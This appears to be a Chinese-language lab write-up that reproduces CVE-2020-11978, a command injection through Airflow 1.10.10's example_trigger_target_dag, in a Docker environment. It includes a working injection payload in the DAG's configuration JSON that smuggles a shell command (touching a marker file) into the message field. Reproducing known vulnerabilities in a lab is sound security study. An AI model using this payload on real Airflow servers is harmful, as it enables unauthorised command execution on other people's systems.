 # Airflow 1.10.10 CVE-2020-11978 示例dag中的命令注入

airflow是一款开源的，分布式任务调度框架，它将一个具有上下级依赖关系的工作流，组装成一个有向无环图。Airflow的配置中使用CeleryExecutor进行任务执行，所以命令执行结果需要在CeleryWorker所在容器中进行查看。

由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。

参考链接：

- https://docs.celeryproject.org/en/stable/userguide/configuration.html
- https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk
- https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers
- https://www.jianshu.com/p/52552c075bc0
- https://www.runoob.com/w3cnote/python-redis-intro.html
- https://blog.csdn.net/SKI_12/article/details/85015803

## 漏洞环境

依次执行如下命令启动airflow 1.10.10

```bash
#初始化数据库
docker-compose run airflow-init initdb

#启动服务
docker-compsoe up -d
```

## 漏洞复现

访问`http://your-ip:8080`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![](1.png)

再点击执行按钮，在Configuration JSON中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`，再点`Trigger`执行dag：

![](2.png)

等几秒可以看到执行成功：

![](3.png)

到CeleryWorker容器中进行查看：

```bash
docker-compose exec airflow-worker ls -l /tmp
```

可以看到`touch /tmp/airflow_dag_success`成功被执行：

![](4.png)
